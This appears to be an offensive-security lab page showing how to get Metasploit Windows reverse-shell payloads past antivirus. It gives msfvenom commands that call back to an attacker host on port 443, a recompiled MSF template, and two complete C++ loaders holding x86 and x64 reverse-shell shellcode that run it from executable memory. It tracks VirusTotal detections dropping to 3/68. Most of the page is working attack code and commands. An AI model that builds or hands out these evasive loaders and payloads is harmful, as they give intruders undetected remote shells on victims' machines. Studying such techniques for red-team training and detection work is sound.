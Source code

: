 # AV Bypass with Metasploit Templates and Custom Compiled Binaries

This is a quick look of a couple of simple ways to **attempt** to bypass antivirus for metasploits reverse shells.

## 48/68 detections

For a baseline test, let's generate the standard MSF reverse shell payload for a 32 bit Windows system:

```text
root@~# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f exe > /root/tools/av.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Checking the file in [VirusTotal](https://www.virustotal.com/#/file/ebf62a6140591b6ccf81035a7f06b3a6580144cfa5a9de0ad49dd323c4513ee3/detection) gives the following detection rate:

![](../.gitbook/assets/msf-templates-default-payload.png)

## 36/68 detections

When generating metasploit payloads, our specified shellcode gets injected into the template binaries. Our payload got injected into the template for which the source code is provided below:

![](../.gitbook/assets/msf-template.png)

Out of curiosity, let's simply recompile the standard template:

```text
root@/usr/share/metasploit-framework/data/templates/src/pe/exe# i686-w64-mingw32-gcc template.c -lws2_32 -o avbypass.exe
```

..and regenerate the payload using the new template:

```text
root@~# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -x /usr/share/metasploit-framework/data/templates/src/pe/exe/avbypass.exe -f exe > /root/tools/avbypass.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 363382 bytes
```

[VirusTotal](https://www.virustotal.com/#/file/c311065c151bdd98efc3c413016a7817f6089985e799121007dd993230c530bd/detection) detections dropped from 48 to 36 and that did not require any code change!

![](../.gitbook/assets/msf-template-vt2.png)

## 32/66 detections

If we make a couple of small changes to the code for memory allocation sizes:

![](../.gitbook/assets/msf-template-sizes.png)

We can further reduce [VirusTotal](https://www.virustotal.com/#/file/1b2dc633c5709435cd956e214f5417488c04e39ac58ccf5aa8bba4813dc9c005/detection) detections - this time they drop from 36 to 32:

![](../.gitbook/assets/msf-template-vt3.png)



## 8/68 detections - custom x86 binary

Let's do something a bit more custom - build a binary from the previous lab [CreateRemoteThread Shellcode Injection](t1055-process-injection/process-injection.md) that is based on the payload: 

{% code-tabs %}
{% code-tabs-item title="inject-local-process.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main()
{
	unsigned char shellcode[] =
		"\xbd\x85\x3b\x76\xa3\xda\xd8\xd9\x74\x24\xf4\x5b\x33\xc9\xb1"
		"\x52\x31\x6b\x12\x83\xeb\xfc\x03\xee\x35\x94\x56\x0c\xa1\xda"
		"\x99\xec\x32\xbb\x10\x09\x03\xfb\x47\x5a\x34\xcb\x0c\x0e\xb9"
		"\xa0\x41\xba\x4a\xc4\x4d\xcd\xfb\x63\xa8\xe0\xfc\xd8\x88\x63"
		"\x7f\x23\xdd\x43\xbe\xec\x10\x82\x87\x11\xd8\xd6\x50\x5d\x4f"
		"\xc6\xd5\x2b\x4c\x6d\xa5\xba\xd4\x92\x7e\xbc\xf5\x05\xf4\xe7"
		"\xd5\xa4\xd9\x93\x5f\xbe\x3e\x99\x16\x35\xf4\x55\xa9\x9f\xc4"
		"\x96\x06\xde\xe8\x64\x56\x27\xce\x96\x2d\x51\x2c\x2a\x36\xa6"
		"\x4e\xf0\xb3\x3c\xe8\x73\x63\x98\x08\x57\xf2\x6b\x06\x1c\x70"
		"\x33\x0b\xa3\x55\x48\x37\x28\x58\x9e\xb1\x6a\x7f\x3a\x99\x29"
		"\x1e\x1b\x47\x9f\x1f\x7b\x28\x40\xba\xf0\xc5\x95\xb7\x5b\x82"
		"\x5a\xfa\x63\x52\xf5\x8d\x10\x60\x5a\x26\xbe\xc8\x13\xe0\x39"
		"\x2e\x0e\x54\xd5\xd1\xb1\xa5\xfc\x15\xe5\xf5\x96\xbc\x86\x9d"
		"\x66\x40\x53\x31\x36\xee\x0c\xf2\xe6\x4e\xfd\x9a\xec\x40\x22"
		"\xba\x0f\x8b\x4b\x51\xea\x5c\x7e\xa6\xf4\x99\x16\xa4\xf4\xa0"
		"\x5d\x21\x12\xc8\xb1\x64\x8d\x65\x2b\x2d\x45\x17\xb4\xfb\x20"
		"\x17\x3e\x08\xd5\xd6\xb7\x65\xc5\x8f\x37\x30\xb7\x06\x47\xee"
		"\xdf\xc5\xda\x75\x1f\x83\xc6\x21\x48\xc4\x39\x38\x1c\xf8\x60"
		"\x92\x02\x01\xf4\xdd\x86\xde\xc5\xe0\x07\x92\x72\xc7\x17\x6a"
		"\x7a\x43\x43\x22\x2d\x1d\x3d\x84\x87\xef\x97\x5e\x7b\xa6\x7f"
		"\x26\xb7\x79\xf9\x27\x92\x0f\xe5\x96\x4b\x56\x1a\x16\x1c\x5e"
		"\x63\x4a\xbc\xa1\xbe\xce\xcc\xeb\xe2\x67\x45\xb2\x77\x3a\x08"
		"\x45\xa2\x79\x35\xc6\x46\x02\xc2\xd6\x23\x07\x8e\x50\xd8\x75"
		"\x9f\x34\xde\x2a\xa0\x1c";

	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();

    return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

[VirusTotal](https://www.virustotal.com/#/file/f4dfceb473a878a3751513bacb4d44ee460391ce1a668edb5337d4859e767335/detection) detections dropped dramatically to 8/68:

![](../.gitbook/assets/msf-vt5.png)

## 3/68 detections - custom x64 binary

The above binaries were all for a x86 architecture. Let's try generating the shellcode for a x64 system and use the same custom binary:

```csharp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c -b \x00\x0a\x0d
```

{% code-tabs %}
{% code-tabs-item title="inject-local-process.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main()
{
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
		"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
		"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
		"\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
		"\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
		"\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
		"\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
		"\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
		"\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
		"\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
		"\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
		"\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
		"\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
		"\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
		"\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
		"\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
		"\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
		"\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
		"\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
		"\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
		"\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
		"\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
		"\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
		"\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
		"\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
		"\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
		"\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
		"\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
		"\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
		"\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
		"\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
		"\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
		"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
		"\x94\x64\x5d\xae\x2b\x90\xe1\xec";

	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();

    return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

[VirusTotal](https://www.virustotal.com/#/file/d1431f479724822d6ccf8684a99598d966a9b5a964e7bd3886308a0217dea712/detection) now only shows **3/68** detections, which is a great improvement that enables us bypassing most of the popular antivirus vendors:

![](../.gitbook/assets/msf-vt4.png)

{% embed data="{\"url\":\"https://www.offensive-security.com/metasploit-unleashed/backdooring-exe-files/\",\"type\":\"link\",\"title\":\"Backdooring EXE Files\",\"description\":\"The ability to embed a Metasploit Payload in any executable that you want is simply brilliant. The best part about it is its extremely simple.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.offensive-security.com/favicon.ico\",\"aspectRatio\":0}}" %}

